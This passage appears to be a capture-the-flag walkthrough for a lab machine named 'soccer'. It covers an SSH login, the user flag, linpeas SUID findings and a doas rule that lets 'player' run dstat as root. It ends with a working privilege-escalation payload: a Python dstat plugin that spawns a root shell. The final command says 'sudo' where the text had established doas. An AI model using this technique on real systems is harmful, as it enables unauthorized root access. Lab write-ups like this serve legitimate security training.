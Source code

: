 ```
$ ssh player@10.10.11.194      
The authenticity of host '10.10.11.194 (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.194' (ED25519) to the list of known hosts.
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun  3 17:37:55 UTC 2025

  System load:           0.0
  Usage of /:            70.8% of 3.84GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             251
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:fe95:27e0


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Dec 13 07:29:10 2022 from 10.10.14.19
player@soccer:~$ ls
user.txt
player@soccer:~$ cat user.txt
b4194e6e1e25e1dc4e67762d80a69b88
```
Q9: Which binary that is similar to sudo is found on the target machine and has the SetUID bit set?
- load linpeas.sh to target and run 
- under SUDI section we can see that doas is listed which is similar to sudo
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                  
-rwsr-xr-x 1 root root 42K Nov 17  2022 /usr/local/bin/doas  
<snip>
```
Q10: What command can the player user run as root with doas without a password?
- tried to find the config file for doas
```
player@soccer:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
Q11: Which directory can be used to host plugins for dstat command when run as root and is writable by the player user?
- according to gtfobins, dstat is able to perform privilege escalationwith sudo accss 
- writting the plugin into `/usr/local/share/dstat/`
```
$:  echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
$: sudo dstat --xxx
```
